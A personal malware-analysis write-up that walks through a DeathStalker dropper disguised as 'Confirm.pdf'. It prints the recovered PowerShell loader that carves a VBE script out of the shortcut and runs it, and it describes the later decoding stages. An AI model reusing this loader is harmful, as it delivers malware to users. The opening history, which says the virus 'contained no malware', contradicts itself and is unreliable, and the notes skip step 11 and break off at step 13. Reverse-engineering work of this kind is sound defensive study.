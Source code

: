 ## Deathstalker exploit history
Although it was a virus that infected financial institutions, it contained no malware. It appears that this was a "malware-for-hire" program where a company could use it to spy on other comapnies.

## Analyzing the PDF LNK document (shortcut)
1. When right clicking and viewing the properties of *Confirm.pdf*, we see that it's not actually a PDF document, but a shortcut, with a target set to `C:\Windows\System32\cmd.exe`
2. When we open 010 editor and drag the file into it (**note: do not "open with 010 editor", you must open editor first, then drag file for analysis**) we see at the top some normal magic number headers, and then  a call to cmd.exe with some powershell script after it. This by itself is not useful because there are several null-byte hex codes in there, so we can copy the script, remove the `0x00` hex null-bytes, take the remainder, throw it into Notepad++, and then now we have just the powershell script. We can add line breaks back in by replacing the `;` character with `;\n` and we get something that looks like this:
```powershell
$m='Confirm.pdf.lnk';
$t=[environment]::getenvironmentvariable('tmp');
cp $m $t\$m;
$z=$t+'\'+@(gci -name $t $m -rec)[0];
$a=gc $z|out-string;
$q=$a[($a.length-2350)..$a.length];
[io.file]::WriteAllbytes($t+'\.vbe', $q);
CsCrIpT $t'\.vbe'
```
For reference, if you don't know what a specific powershell command is, you can type in `help <command name>` in a powershell terminal to find out. `gc` = `Get-Content` (an alias for gc, cat, type) and `gci` = `Get-ChildItem` (an alias for gci, ls, dir)
3. The script takes the shortcut file and reads some specific bytes from length-2350 to the end and writes the files to a .vbe script, then executes it.
4. We can pull these bytes out of the file by using 010 editor, pressing ctrl+g to "Go to" and then selecting "Decimal" and "From end of file" in the dropdown menus

![[Screenshot 2023-02-23 at 7.22.41 PM.png]]
5. We can highlight this resulting bytes through the end of the file and save it to a new file by going to *File -> Save Selection -> stage1.vbe*
6. This appears to be an encrypted VBE script, which is a very easy using available tools online. Here is a link to a python script that can do the job: https://github.com/DidierStevens/DidierStevensSuite/blob/master/decode-vbe.py this script only works on Python2 right now. Running the following command: `python2 decode-vbe.py stage1.vbe > stage1-decoded.vbe` gives an output of the decoded script
7. We see in the script that it takes something at offset 2334 with a size of 403632 and saves it to a file called *Confirm.pdf* we can go to 010 editor and go to *Edit -> Select Range* and type in the following:
![[Screenshot 2023-02-23 at 7.36.51 PM.png]]
Then press enter and we see that the range has been selected and we can save just that part to a file.
8. Immediately after the PDF is pulled from memory, it's opened as a decoy document. Then another selection of bytes is pulled from the lnk document, starting right after the PDF  document, with a starting position of 405966 (next byte after PDF) and size of 338462. We can do the same thing here and extract it from 010 editor and see what it is. It looks like it's some encoded data being saved as a file called *~tmpDF3D.ps1*
9. The first bit of processing we can do on the ps1 file is to add line breaks back in. Disable wordwrap, and replace all `;` with `;\n` and then find where there were `;` inside of strings, and fix the strings so they are correct
10. So now that it looks better, we see that there are defined random strings, and then characters being pulled out of the strings via indexes of them. i.e. `$11II=" S2opwermvjrulokbsk#@ksdf...."[13, 3, 60, 30, 29....]`
So we can copy each line one by one into powershell and then type the variable name to see what it gives us.
```powershell
$11II=Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been...
$i111=base 64 encoded string decodes to: SystemRunTimeInteropServicesMarshall::PrTRoStringAuto([SystemRuntimeInteropServiceMarshal]::SecureStringToBSTR($(ConvertTo-SecureString 
$O111=iex
$01Oi=$i111 = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($i111));
etc.etc.
```
The easiest way to figure out what the powershell script is eventually going to run (by way of the `iex` command) is to replace what we know is the `iex` variable, `$0111` with something like `Write-Output`. If we replace the instance of the `iex` reference getting executed, and then run the whole powershell script and output it to another file we get the decrtpted results.\
`.\~.tmpDF3D.ps1 > stage2.ps1`
12. We can start analyzing the second stage powershell script, and we eventually come across some script that calls `new-object System.IO.BinaryReader` and opens the original file, `Confirm.pdf.lnk`, reading 697088 bytes into $stager2 and reading 8928 bytes into $dll and 4286 bytes into $icon and 614 bytes into $vbs_startup. Writing all the bytes in reverse order to their respective files.
13. 